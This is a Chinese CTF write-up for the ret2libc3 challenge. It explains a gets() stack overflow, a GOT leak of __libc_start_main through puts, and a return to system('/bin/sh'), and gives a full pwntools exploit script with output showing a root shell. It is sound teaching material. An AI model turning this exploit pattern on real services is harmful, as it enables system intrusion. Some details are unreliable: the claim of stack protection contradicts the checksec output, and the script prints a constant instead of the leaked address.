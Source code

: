 ```yaml
---
title: "ret2libc"
date: 2019-02-25T15:16:23+08:00
tags: [""]
categories: ["工具使用接口", "CTF-WriteUp"]
---
```



## 保护等级

首先检查保护等级：

```bash
$ checksec ret2libc3
[*] '/mnt/d/program/ctf/ctf-wiki/ret2libc3/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看到这是一个开启了部分只读和栈溢出保护的程序。

## 程序逻辑

在 `Ida Pro` 中打开即可看到 `main` 函数的伪代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(&s);
  return 0;
}
```

可见这是一个相当明显的栈溢出。`0x64` 个字节就能覆盖到原 `EBP`、`0x68` 就能覆盖到返回地址。

## 利用

查找字符串和 `system` 函数之后发现都没找到。那么我们如何得到 system 函数的地址呢？

- `system` 函数属于 `libc`，而 `libc.so` 动态链接库中的函数之间相对偏移是固定的。

- 所以如果我们知道 `libc` 中某个函数的地址，那么我们就可以确定该程序利用的 `libc`。进而我们就可以知道 `system` 函数的地址。

那么如何得到 `libc` 中的某个函数的地址呢？

- 我们一般常用的方法是采用 got 表泄露，即输出某个函数对应的 got 表项的内容。
- 当然，由于 `libc` 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址，通常选取的函数是 `__libc_start_main`，这是因为它是程序最初被执行的地方。

*PostScript*: 关于 `PLT` 表与 `GOT` 表的关系可以参考 [LIEF](<https://lief.quarkslab.com/doc/stable/tutorials/05_elf_infect_plt_got.html>)

### `leak_libc_main`

我们将控制 `main` 函数溢出后，其栈帧形成下面的形式：

```
                   +----------------+                                   
                   |                |                                   
              0x64 | local variable |-----> 'A'*0x64                    
                   |                |                                   
                   +----------------+                                   
               0x4 | previous $ebp  |-----> 'A'* 0x4                    
                   +----------------+                                   
               0x4 | return address |-----> "puts" address              
                   +----------------+                                   
                                    ------> "main" address              
                                                                        
                                    ------> .got.plt:"__start_libc_main"
```

实际上执行的是这样一个函数 `puts("__start_libc_main")`。

### `get_shell`

因为上面的的栈帧控制，我们可以再执行一次 `main` 函数，经过之前的泄露我们可以得到 `libc` 的加载基地址，因此可以得到 `system` 的地址，从而可以执行系统调用拿到 `shell`：

```
                   +----------------+                        
                   |                |                        
              0x64 | local variable ------> 'A'*0x64         
                   |                |                        
                   +----------------+                        
               0x4 | previous $ebp  ------> 'A'* 0x4         
                   +----------------+                        
               0x4 | return address ------> "system" address 
                   +----------------+                        
                                    ------> 'A'* 0x4         
                                                             
                                    ------> "/bin/sh" address
```

实际上执行的是这样一个函数 `system("/bin/sh")`。

### 脚本

```python
#!/usr/bin/env python2
# coding=utf-8
from pwn import *


class Challenge:
    libc_main_addr = 0x1AA50
    libc_system_addr = 0x3E9E0
    libc_binsh_addr = 0x17EAAA

    def __init__(self):
        self.p = process(["./ret2libc3"])
        self.elf = ELF("./ret2libc3")

    def leak_libc_main(self):
        puts_addr = self.elf.plt["puts"]
        libc_main_addr = self.elf.got["__libc_start_main"]
        main_symbol = self.elf.symbols["main"]
        # todo 我也不知道为什么是 0x70 的偏移，按反汇编结果应该是 0x68 才对。栈结构：
        #       _puts 地址(第一次 main 返回地址)==>_puts 返回地址(第二次 main 地址)==>_puts 参数(got["libc_main"])
        payload = flat(['A' * (0x6c + 0x4), puts_addr, main_symbol, libc_main_addr])
        self.p.recvuntil("Can you find it !?")
        self.p.sendline(payload)
        self.leak_main_addr = u32(self.p.recv()[:4])
        print("__libc_start_main: %s" % hex(self.libc_main_addr))

    def get_libc_offset(self):
        self.libc_base = self.leak_main_addr - self.libc_main_addr
        print("libc offset: %s" % hex(self.libc_base))

    def get_shell(self):
        system_addr = self.libc_base + self.libc_system_addr
        bin_sh_addr = self.libc_base + self.libc_binsh_addr
        payload = flat(["A" * (0x64 + 0x4), system_addr, "A" * 0x4, bin_sh_addr])
        self.p.sendline(payload)
        self.p.interactive()

    def pwn(self):
        self.leak_libc_main()
        self.get_libc_offset()
        self.get_shell()
        self.p.wait_for_close()


if __name__ == "__main__":
    c = Challenge()
    c.pwn()
```

执行结果：

```bash
$ python exp.py 
[+] Starting local process './ret2libc3': pid 6456
[*] '/tmp/pycharm_project_477/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
__libc_start_main: 0x1aa50
libc offset: 0xf7d55000
[*] Switching to interactive mode
$ whoami
root
```


